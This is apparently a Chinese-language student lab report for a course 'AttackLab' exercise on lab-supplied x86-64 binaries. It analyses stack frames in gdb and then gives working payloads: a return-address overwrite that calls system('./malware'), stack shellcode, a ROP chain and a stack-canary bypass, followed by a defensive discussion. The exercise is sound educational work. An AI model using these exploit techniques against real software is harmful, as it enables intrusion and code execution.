





# Lab3 AttackLab 实验报告

## 0. 实验环境

- Ubuntu 24.04 (WSL2)，gdb 17.1 + GEF
- 四个二进制均由实验提供，均为 **non-PIE**（`checksec`：PIE ✗）

| 程序 | Canary | NX | PIE | 用途 |
|---|---|---|---|---|
| dark-calc | ✗ | ✓ | ✗ | 基础溢出、栈执行 |
| dark-calc-nx | ✗ | ✓ | ✗ | ROP |
| dark-log | ✓ | ✓ | ✗ | Canary 绕过 |

> 注：`dark-calc` 的 `checksec` 显示 NX ✓，但它实际使用一块 `rwx` 的**自定义栈**（见第 5 节），所以栈上代码仍可执行。

## 1. 观察 input 函数的栈帧

在 `b input` 后程序停在 **0x40197f（input+8）**。GDB 在按函数名下断点时会自动跳过 prologue，所以断点落在 prologue 之后。

### 1.1 栈帧实测值

| 地址 | 内容 | 含义 |
|---|---|---|
| `0x721000800ff8` | `0x401c1f` | main 的返回地址（`__wrap_main+0x11`） |
| `0x721000800ff0` | `0x7fffffffdc00` | main 的 saved rbp |
| `0x721000800fe8` | `0x401ad1` | **input 的返回地址**（main+0x0e） |
| `0x721000800fe0` | `0x721000800ff0` | main 的 rbp（input 的 `$rbp` 所指） |
| `0x721000800fd0–fd8` | `0` | `expression[16]` |

```
高地址
0x...ff8 │ main 的返回地址
0x...ff0 │ main 的 saved rbp
0x...fe8 │ input 的返回地址 0x401ad1   ← 溢出覆盖目标（偏移 24）
0x...fe0 │ saved rbp = main 的 rbp     ← $rbp
0x...fd8 │ expression 高 8 字节
0x...fd0 │ expression 低 8 字节        ← &expression
低地址
```

### 1.2 问题 1：input 是谁调用的

GEF 的 `trace` 面板为：

```
[#0] 0x40197f → input()
[#1] 0x401ad1 → main()
```

`input` 由 **main** 调用，`disas main` 可见调用点是 `0x401acc: call 0x401977 <input>`。

### 1.3 问题 2：前三条指令与 `$rbp` 所指的值

```
0x401977 <input+0>: push %rbp        ; 保存调用者的帧指针
0x401978 <input+1>: mov  %rsp,%rbp   ; 建立当前栈帧，rbp 成为帧基址
0x40197b <input+4>: sub  $0x10,%rsp  ; 为 expression[16] 分配 16 字节
```

`$rbp = 0x721000800fe0` 处存放的 `0x721000800ff0` 是 **main 的 rbp**，来源是 `input` 自己 prologue 中的 `push %rbp`。

### 1.4 问题 3：`$rbp+8` 处是什么

`[$rbp+8] = 0x401ad1`，即 `disas main` 中 `call input`（`0x401acc`）的**下一条指令地址**（`main+0x0e`）。它正是 `input` 执行 `ret` 后要跳回的位置。

### 1.5 问题 4：这个值是哪条指令写进去的

在 `0x401acc` 处下断点并 `si`：

| 时刻 | 命令 | 结果 |
|---|---|---|
| `call` 执行前 | `x/gx $rsp` | 栈顶是上一轮遗留的值 |
| `call` 执行后 | `x/gx $rsp-8` | 变成 `0x401ad1` |

因此是 **`call` 指令本身**把返回地址压栈。`call` 的语义等价于 `push $下一条指令; jmp 目标`，所以在 `input` 内部当然看不到“写入”动作。

### 1.6 问题 5：leave 与 ret 的作用

从 `leave`（`0x4019d5`）开始单步：

| 时刻 | rsp | rbp | 说明 |
|---|---|---|---|
| `leave` 前 | `0x...fd0` | `0x...fe0` | 局部变量仍在栈上 |
| `leave` 后 | `0x...fe8` | `0x...ff0` | 丢弃局部变量、恢复调用者 rbp |
| `ret` 后 | `0x...ff0` | `0x...ff0` | rip = `0x401ad1`，回到 main |

综合 Q2–Q4：

- **`call`**：把返回地址压栈并跳转，建立“回来的路”；
- **prologue**：`push rbp` 保存旧帧指针，`mov rbp,rsp` 建立新帧，`sub rsp,N` 分配局部变量；
- **`leave`**：`mov rsp,rbp` 丢弃局部变量，`pop rbp` 恢复调用者帧指针；
- **`ret`**：弹出返回地址到 `rip`。

四者配合，栈帧才能一层层建立、又逐层销毁，函数调用的嵌套与返回才成为可能。

## 2. 不同长度的输入测试

| 输入 | 含 `\0` 总长 | 覆盖范围 | 现象 | 退出码 |
|---|---|---|---|---|
| 20 个 `A` | 21 | 进入 saved rbp（16–23） | 程序继续运行，打印 `echo $((AAAAAAAAAAAAAAA))` 与 `0`，随后正常退出 | 0 |
| 32 个 `A` | 33 | 覆盖返回地址（24–31） | `Segmentation fault` | 139 |

在 `gets` 返回处（`0x40199f`）观察栈：

```
0x...fd0: 0x4141414141414141  0x4141414141414141   ← expression
0x...fe0: 0x4141414141414141  0x4141414141414141   ← saved rbp
0x...fe8: 0x4141414141414141                        ← 返回地址被覆盖
```

说明：`gets()` 不检查长度，超出缓冲区的字节沿栈**向高地址**继续写，依次破坏 saved rbp 和返回地址。

两点补充：

- 20 字符时 `eval` 里 `len = strlen > MAXLEN ? MAXLEN : len` 把长度截断为 15，所以只打印 15 个 A；输出里的 `0` 是 bash 算术扩展把未定义的 `AAAA...` 当作变量求值（未定义变量为 0）。
- 32 字符时返回地址变为 `0x4141414141414141`，`ret` 时跳转到非法地址，触发 `SIGSEGV`。

## 3. 利用溢出执行 ./malware

### 3.1 思路

`input` 中 `strcpy(command_buf, expression)` 已经把**原始输入**写入全局变量 `command_buf`（地址 `0x6030d0`，固定）。随后 `main` 调用 `eval`，`eval` 会把它包装成 `echo $(( ... ))` 再交给 `system`。

因此不必让 `eval` 正常执行——直接把 `input` 的返回地址改成 `eval` 内部“装载参数并调用 system”的位置：

```
0x401a6b <eval+0x94>: mov $0x6030d0,%edi    ; rdi = command_buf
0x401a70 <eval+0x98>: call 0x4017e0 <system@plt>
```

跳到 `0x401a6b` 即可跳过 `memmove/memcpy/printf`，直接执行 `system(command_buf)`。

### 3.2 payload

```python
RET = 0x401A6B
payload  = b"./malware\x00"              # 命令
payload += b"A" * (24 - len(payload))    # 填到返回地址
payload += struct.pack("<Q", RET)
```

`\0` 是刻意加的：`strlen/strcpy` 只把 `./malware`（10 字节）复制进 31 字节的 `command_buf`；而 `gets` 不理会 `\0`，仍把 32 字节全部写到栈上，从而完成溢出。

### 3.3 结果



程序输出 `### You have successfully detonated the bomb! Congratulations! ###`，随后因栈帧被破坏而 `Bus error`，不影响攻击成功。

## 4. main 函数的机器码

| 指令 | 地址区间 | 机器码 | 长度 |
|---|---|---|---|
| `push %rbp` | `0x401ac3` | `55` | 1 |
| `mov %rsp,%rbp` | `0x401ac4`–`0x401ac6` | `48 89 e5` | 3 |
| `mov $0x0,%eax` | `0x401ac7`–`0x401acb` | `b8 00 00 00 00` | 5 |
| `call input` | `0x401acc`–`0x401ad0` | `e8 a6 fe ff ff` | 5 |



```
地址  0x401ac3 0x401ac4 0x401ac5 0x401ac6 0x401ac7 ... 0x401acb 0x401acc
字节     55      48       89       e5       b8     ...    00     e8
        └ push ─┘└──── mov rsp,rbp ───┘└──── mov eax,0 ────┘└ call
rip →  0x401ac3         0x401ac4          0x401ac7          0x401acc
```

- 机器码按**地址从低到高连续存放**，指令长度不等（1/3/5 字节）；
- `rip` 每执行完一条就自动加上该条长度，故依次为 `0x401ac3 → 0x401ac4 → 0x401ac7 → 0x401acc`；
- `call` 使用 `e8` + rel32 相对偏移（`0xa6feffff` = −0x15a，`0x401ad1 − 0x15a = 0x401977`）；
- `main` 中没有 `sub rsp,N`，因为它没有局部变量，说明栈帧大小取决于局部变量的需要。

## 5. 栈空间执行

### 5.1 实验制造的“假象”

`vmmap` 显示程序并不使用系统给的 `[stack]`，而是使用一块 **rwx** 区域：

```
0x721000001000 - 0x721000801000  rwx
```

`__wrap_main`（`0x401c0e`）在进入 `main` 前把栈切换到了这块 mmap 出来的固定地址区域（`r12` 保存原栈指针，`0x401c1f: mov %rsp,%r12` 时恢复）。因此：

- 栈**可执行** → 可以执行栈上的机器码；
- 栈**地址固定**（两次运行 `$rbp-0x10` 都是 `0x721000800fd0`）→ 可以硬编码地址。

这两个正是实验“故意营造的假象”。

### 5.2 shellcode

目标：调用 `grade_eval(4)`（`dark-calc` 中位于 `0x401a87`）。

| 机器码 | 长度 | 含义 |
|---|---|---|
| `6a 04` | 2 | `push 4` |
| `5f` | 1 | `pop rdi` → 第一个参数 = 4 |
| `48 b8 87 1a 40 00 00 00 00 00` | 10 | `movabs rax, 0x401a87` |
| `ff d0` | 2 | `call rax` |
| `c3` | 1 | `ret` |

用 `push/pop` 而非 `mov edi,4` 是为了省字节（3 字节 vs 5 字节），整段 16 字节正好放进 16 字节缓冲区。

### 5.3 payload 布局

```
偏移 0  ┌ shellcode 16 字节 ┐
偏移 16 │ 0x90 × 8（saved rbp，被 leave 弹出后无影响）
偏移 24 │ 0x721000800fd0（返回地址 = 缓冲区起点）
```

### 5.4 对齐分析

`ret` 后 `rsp = rbp+0x10`（16 字节对齐）；`push 4` / `pop rdi` 一进一出相互抵消，`call rax` 压栈后 `grade_eval` 入口 `rsp % 16 == 8`，符合 SysV ABI 要求，因此 `printf` 内部的 `movaps` 不会崩溃。

### 5.5 结果



## 6. ROP

### 6.1 为什么需要 ROP

`dark-calc-nx` 的 `GNU_STACK` 为 `RW`（无 `E`），栈不可执行；同时栈地址随机。但代码段 non-PIE、地址固定，于是改用 `.text` 中以 `ret` 结尾的指令片段（gadget）拼接程序。

### 6.2 gadget

`objdump` 在 `0x4019d0–0x401ae3`（`__libc_csu_init`）中找到：

| gadget | 地址 | 字节 | 说明 |
|---|---|---|---|
| `pop %r15; ret` | `0x401a32` | `41 5f c3` | 正常对齐 |
| **`pop %rdi; ret`** | **`0x401a33`** | `5f c3` | 从上一行的第二个字节**错位**取 |
| `ret` | `0x401a34` | `c3` | 对齐用 |

x86-64 是变长编码，指令边界并不唯一，从 `41 5f` 的第二个字节开始解码就得到 `pop rdi; ret` —— 这正是 ROP 能“凭空造 gadget”的原因。

### 6.3 链

```
[A × 24]        ; 16 字节 buffer + 8 字节 saved rbp
[0x401a33]      ; pop rdi; ret
[4]             ; rdi = 4
[0x401a34]      ; ret（对齐）
[0x401978]      ; grade_eval
```

**为什么要多一个 `ret`**：`ret` 回到链上时 `rsp % 16 == 0`；若直接进入 `grade_eval`，其内部 `printf` 会执行 `movaps`，要求 16 字节对齐，否则崩溃。多弹一次 8 字节后，`grade_eval` 入口 `rsp % 16 == 8`，满足 ABI。

### 6.4 结果



## 7. Canary 绕过

### 7.1 机制

编译器在缓冲区与返回地址之间插入一个随机值（canary），函数返回前校验，被改动则调用 `__stack_chk_fail`。`dark-log` 的 `input` 中：

```
0x4016e1: mov %fs:0x28,%rax
0x4016ea: mov %rax,-0x8(%rbp)     ; canary 位于 rbp-0x8
...
0x4017df: mov -0x8(%rbp),%rax
0x4017e3: xor %fs:0x28,%rax
0x4017ec: je  ...
0x4017ee: call __stack_chk_fail
```

### 7.2 结构体布局

| 字段 | 相对 rbp | 相对输入起点 |
|---|---|---|
| `expression[128]` | `rbp-0x120` | 0–127 |
| `logMsg[128]` | `rbp-0xa0` | 128–255 |
| `len` | `rbp-0x20` | 256–259 |
| `pad[8]` | `rbp-0x1c` | 260–267 |
| canary | `rbp-0x8` | 280 |
| 返回地址 | `rbp+8` | — |

### 7.3 绕过思路

`input` 中有两次写操作：

```c
gets(f.expression);                                  // ① 溢出，可写到 len
memcpy(f.logMsg + f.len, f.expression, 128);         // ② 用 f.len 控制目标地址
```

- ① 写到偏移 260 即可控制 `f.len`，而 canary 在 280，**完全碰不到**；
- ② 发生在 canary 校验**之前**，目的地址 = `f.logMsg + f.len`。令

  `len = (rbp+8) − (rbp-0xa0) = 0xa8 = 168`

  则这次 `memcpy` 把 `f.expression` 的 128 字节**写到返回地址上**。canary 未被修改，校验通过；随后 `leave; ret` 跳入链。

关键点：`len` 是两个同帧对象之间的距离，**栈整体被 ASLR 平移时差值不变**，所以这个值不需要泄露任何运行时地址。

### 7.4 链

返回地址处的内容 = 输入的前 8 字节，故：

```
偏移 0  [0x4018a3]  pop rdi; ret   ← 写到 rbp+8
偏移 8  [4]         rdi = 4
偏移 16 [0x4018a4]  ret（对齐）
偏移 24 [0x401677]  grade_eval
偏移 32–255 填充
偏移 256 [168]      f.len = 0xa8
```

`dark-log` 的 gadget 与 `dark-calc-nx` 同源：`0x4018a2: 41 5f`，错位取 `0x4018a3` = `5f c3`。

### 7.5 结果



### 7.6 如何重排局部变量才能防住

溢出只能**向高地址**增长，而 canary 位于所有局部变量之上、返回地址之下。因此防御的关键是让“有用的字段”处在缓冲区**低地址**一侧：

- 把 `char expression[128]` 放到结构体**最后**（最高地址），紧邻 canary；
- `len`、`pad` 等字段放在**最前**（最低地址）。

这样 `gets` 一旦越界，会立刻撞上 canary 被检测到，而永远够不到 `len`；没有了“用输入控制长度”的能力，`memcpy` 的写原语也就不存在了。同理，编译器一般也会把字符数组排布在栈帧中靠近 canary 的高地址端。

## 8. 总结

| 攻击 | 依赖的漏洞 | 被什么挡住 | 如何绕过 |
|---|---|---|---|
| 覆盖返回地址 | `gets` 无长度检查 | — | 直接覆盖返回地址 |
| 栈上执行代码 | 同上 | NX、ASLR | 实验提供的固定 rwx 假栈 |
| ROP | 同上 | NX | 复用 `.text` 中的 gadget，地址固定（non-PIE） |
| Canary 绕过 | `gets` + 可控 `len` 的 `memcpy` | Stack Protector | 不碰 canary，改用写原语改返回地址 |

缓冲区溢出这一“古老”的漏洞之所以危险，是因为它把**数据**和**控制信息**放在了同一块内存里；而现代防护的每一层，本质上都是在试图把这两者重新分开：NX 区分代码与数据，ASLR 隐藏位置，Canary 检测越界，Fortify 在编译期插入长度检查。